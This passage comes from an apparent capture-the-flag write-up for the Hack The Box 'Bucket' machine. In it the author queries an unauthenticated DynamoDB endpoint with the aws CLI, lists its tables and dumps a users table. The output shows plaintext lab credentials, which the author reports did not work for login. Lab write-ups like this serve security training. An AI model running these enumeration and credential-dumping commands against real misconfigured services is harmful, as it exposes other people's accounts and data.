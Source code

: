 Let's check the shell part of the website.

![{{site.baseurl}}/assets/img/HackTheBox/Bucket/Screenshot_20201101_175414.png]({{site.baseurl}}/assets/img/HackTheBox/Bucket/Screenshot_20201101_175414.png)

Gives us access to a JS shell for dynamodb. Tried using it but gave up and in the end used the aws CLI. First let's get a list of all the tables of the DB:

```
aws dynamodb list-tables --endpoint-url http://s3.bucket.htb
{
    "TableNames": [
        "users"
    ]
}
```

Now let's see what is inside of that table

```
aws dynamodb scan --table-name users --endpoint-url http://s3.bucket.htb
{
    "Items": [
        {
            "password": {
                "S": "Management@#1@#"
            },
            "username": {
                "S": "Mgmt"
            }
        },
        {
            "password": {
                "S": "Welcome123!"
            },
            "username": {
                "S": "Cloudadm"
            }
        },
        {
            "password": {
                "S": "n2vM-<_K_Q:.Aa2"
            },
            "username": {
                "S": "Sysadm"
            }
        }
    ],
    "Count": 3,
    "ScannedCount": 3,
    "ConsumedCapacity": null
}
```

No luck connecting with any of the credentials so let's try something else.
